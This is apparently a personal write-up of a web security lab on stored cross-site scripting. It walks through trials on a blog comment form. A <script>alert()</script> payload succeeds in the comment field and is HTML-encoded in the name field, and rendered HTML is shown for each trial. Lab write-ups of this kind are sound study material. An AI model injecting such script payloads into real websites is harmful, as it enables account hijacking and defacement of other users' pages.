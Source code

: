 # Stored XSS into HTML context with nothing encoded 

**Notes:**
 **Analysis**

There are 4 fileds in comment section
Comment, name, email, website
  

***Trial 1***

1. Comment : hello from hecker

2. Name : hecker

3. Email : hecker@web.com

4. Website : -blank-

  

**Observation** : *Testing*

*On looking at the view-page source, so, we can try injecting JS to "Comment field" or "name field ???"*

  

    <section  class="comment">
    <p>
    <img  src="/resources/images/avatarDefault.svg"  class="avatar"> 
    hecker | 11 January 2022
    </p>
    
    <p>hello from hecker</p>
    <p></p>
    </section>

  
***Trial 2 : Injecting JS to Comment field***

1. Comment : <script>alert('hello from hecker')</script>

2. Name : hecker2

3. Email : hecker@web.com

4. Website : <blank>

  
**Observation : *Sucess***

*On looking at the code, we are able to inject JS sucessfully and get the pop-up box*

    <section  class="comment">
    
    <p>
    
    <img  src="/resources/images/avatarDefault.svg"  class="avatar"> 
    hecker2 | 11 January 2022
    
    </p>
    
    <p><script>alert('hello from hecker')</script></p>
    
    <p></p>
    
    </section>


**Trial 3 : Injecting JS to Name field**

1. Comment : hello from hecker

2. Name : <script>alert('hecker3')</script>

3. Email : hecker@web.com

4. Website : <blank>

**Observation : Failure**

*On looking at the code, we see angle brackets(<,>) are HTML encoded.*


    <section  class="comment">
    
    <p>
    
    <img  src="/resources/images/avatarDefault.svg"  class="avatar">
    
    &lt;script&gt;alert(&apos;hecker3&apos;)&lt;/script&gt; | 11 January 2022
    
    </p>
    
    <p>hello from hecker</p>
    
    <p></p>
    
    </section>
